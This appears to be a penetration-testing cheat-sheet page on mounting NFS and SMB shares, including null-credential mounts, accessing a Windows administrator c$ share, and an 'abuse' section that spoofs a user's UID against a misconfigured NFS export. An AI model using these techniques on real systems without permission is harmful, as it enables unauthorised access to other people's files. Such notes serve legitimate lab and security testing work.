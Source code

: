 ```yaml
---
title: "Mount Share"
date: 2024-6-26
tags: ["smb", "share", "mount", "cifs", "enum", "nfs"]
---
```


---
{{< tab set1 tab1 active >}}nfs{{< /tab >}}
{{< tab set1 tab2 >}}smb{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### List share

<div>

```bash
showmount -e 10.10.11.10
```

</div>

#### Mount share

<div>

```bash
sudo mount -t nfs 10.10.11.10:/share /mnt/share/
```

</div>

#### Unmount share

<div>

```bash
sudo umount /mnt/share/
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Mount share

<div>

```bash
sudo mount -t cifs //10.10.11.10/share /mnt
```

```bash
# Without creds
sudo mount -t cifs -o user=,password= //10.10.11.10/share /mnt
```

```bash
# With creds
sudo mount -t cifs -o user=<USER>,pass=<PASSWORD> //10.10.11.10/share /mnt
```

</div>

#### Mount inside Windows

<div>

```powershell
# Mount
net use \\localhost\c$ /u:<DOMAIN>\<USER> <PASSWORD>
```

```powershell
# Check
dir \\localhost\c$\users\administrator\desktop
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #1: Misconfigured Share

<div>

```bash
# Check all mounted drives
mount
```

```bash
# Check how shares are mounted
cat /etc/exports
```

</div>

<br>

<div>

```bash
+-----------------------------------------------------------------------------------------+
| root_squash  : running as root on local system will be treated as nobody user in target |
| no_all_squash: every other users permission will translate from local system to target  |
+-----------------------------------------------------------------------------------------+
```

</div>

<br>

<div>

```bash
# Add dummy user
sudo useradd dummy
```

```bash
# Change uid
sudo usermod -u 1001 dummy 
```

```bash
# Switch to dummy user
sudo su dummy -c bash
```

</div>

<br>